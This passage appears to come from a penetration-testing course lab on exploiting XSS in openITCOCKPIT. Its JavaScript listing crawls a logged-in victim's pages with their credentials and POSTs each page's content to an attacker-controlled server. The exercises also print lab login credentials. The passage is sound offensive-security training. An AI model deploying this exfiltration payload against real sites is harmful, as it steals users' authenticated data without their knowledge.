 > Listing 36 - Checking for valid URL

Next, we will send a GET request to each valid and unique href, encode the content, and send the content over to our API server. We will use the _fetch_ method to make these requests.

The code block in Listing 37 will loop through each valid, unique href and _GET_ the content. Since we don't want a user's browser to completely freeze during this operation, we'll run the request as an asynchronous task. The reason for using the _fetch_ method is that will return a JavaScript _promise_.[2](https://portal.offsec.com/courses/web-300-687/learning/openitcockpit-xss-and-os-command-injection-blackbox-10585/wrapping-up-10652/wrapping-up-10712#fn-local_id_355-2) A _promise_ handles asynchronous operations once they complete or fail. Instead of blocking the entire thread as the code executes, a function passed in to the _promise_ will be executed once the operation is complete. This also allows us to tie multiple promises together to ensure one method only executes after another completes.

The _promise_ returned by the _fetch_ will be handled by _.then_ and the response will be passed in as an argument to the function. The text from the response is obtained (which returns another promise) and passed into another _.then_ function. Within the final _.then_ function, the text is sent to our API server along with the source URL:

```
validUniqueHrefs.forEach(href =>{
    fetch(href, {
        "credentials": "include",
        "method": "GET",
    })
    .then((response) => {
      return response.text()
    })
    .then(function (text){
      fetch("https://192.168.119.120/content", {
        body: "url=" + encodeURIComponent(href) + "&content=" + encodeURIComponent(text),
        headers: {
          "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
      })
    });
})
```

> Listing 37 - Obtaining authenticated content

To recap, our JavaScript should now load the homepage (if the user is logged in) and scrape all links. The obtained links are then checked for validity and any logout links are removed. Finally, each link is visited in the background of the user's browser and the contents are forwarded to our API server for storage.

#### Exercises

1. Complete the script by creating the _validURL_ function. The function should return all valid HTTP and HTTPS URLs that do not contain any keywords will log out the victim. Ideally we would only want to target the domain the XSS is running on. However, at this point, we are not aware of how the developers built the links, so we will accept any valid HTTP and HTTPS links.
2. Using the credentials view@viewer.local:27NZDLgfnY, login to openITCOCKPIT and XSS that user. It might be tempting to poke around, but remember we are treating this as a black box module. In a real world scenario, we would not have access to these credentials.
